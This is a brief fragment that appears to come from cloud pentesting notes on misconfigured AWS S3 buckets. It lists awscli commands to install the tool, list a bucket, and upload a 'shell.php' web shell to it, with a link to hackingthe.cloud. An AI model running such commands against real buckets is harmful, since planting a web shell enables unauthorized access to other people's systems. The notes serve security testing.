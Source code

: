
`$ sudo apt install awscli`

`$ aws s3 ls --endpoint=http[s]://<s3_bucket_URL>`

`$ aws s3 cp shell.php --endpoint=http[s]://<s3_bucket_URL>`
## References

https://hackingthe.cloud/aws/general-knowledge/aws_organizations_defaults/
